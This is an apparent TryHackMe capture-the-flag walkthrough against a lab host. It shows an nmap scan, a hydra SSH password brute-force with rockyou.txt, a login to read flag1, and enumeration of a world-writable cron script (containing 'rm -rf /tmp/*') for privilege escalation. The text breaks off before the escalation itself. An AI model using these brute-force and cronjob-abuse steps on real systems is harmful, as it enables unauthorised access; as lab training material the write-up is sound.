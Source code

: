 ## What port is SSH running on?
```console
nmap -p- -A 10.10.50.118
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-15 22:49 EDT
Nmap scan report for 10.10.50.118
Host is up (0.045s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE VERSION
4XXX/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:fc:5a:a1:06:82:37:95:35:29:03:c1:34:fa:bc:99 (RSA)
|   256 36:e5:21:c9:83:8b:68:9d:30:bb:20:3c:6f:f7:fa:f4 (ECDSA)
|_  256 7b:88:cc:36:a0:f5:5a:79:3b:1c:a5:a8:e9:d2:d4:0d (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 111.42 seconds

```
## Crack sam's password and read flag1.txt
```console
kali@kali:~$ hydra -l sam -P /usr/share/wordlists/rockyou.txt 10.10.50.118 -s 4567 -t 4 ssh # crack password with hydra
kali@kali:~$ ssh sam@10.10.50.118 -p 4567 # ssh
sam@10.10.50.118's password: 
       .---.
      /     \
      \.@-@./
      /`\_/`\
     //  _  \\
    | \     )|_
   /`\_`>  <_/ \
   \__/'---'\__/
     tryhackme
sam@ip-10-10-50-118:~$ ls
flag1.txt
sam@ip-10-10-50-118:~$ cat flag1.txt
```

## Escalate your privileges by taking advantage of a cronjob running every minute. What is flag2?
after the enumeration, I found 2 insteresting files
```console
sam@ip-10-10-50-118:~$ ls -l /home/ubuntu/ # the flag2.txt is here, remember the ownership
total 4
-r-------- 1 ubuntu ubuntu 38 Dec 19 20:09 flag2.txt
sam@ip-10-10-50-118:~$ ls /home/scripts/ # 2nd file is .sh
clean_up.sh  test.txt
sam@ip-10-10-50-118:~$ cat /home/scripts/clean_up.sh #it remove everything in /tmp
rm -rf /tmp/*
sam@ip-10-10-50-118:~$ ls -la /home/scripts/ #own by ubuntu and it seem like we have permission to rwx
total 16
drwxrwxrwx 2 root   root   4096 Dec 19 20:55 .
drwxr-xr-x 5 root   root   4096 Dec 19 20:12 ..
-rwxrwxrwx 1 ubuntu ubuntu   14 Dec 19 20:55 clean_up.sh
-rw-r--r-- 1 root   root      5 Dec 19 20:55 test.txt
```
So the task is escalate our privileges by taking advantage of a cronjob... maybe the executing ```clean_up.sh``` is a part of the cronjob? let check it out
```console
sam@ip-10-10-50-118:~$ ls -la /tmp/ #so we can see the latest modified time
```
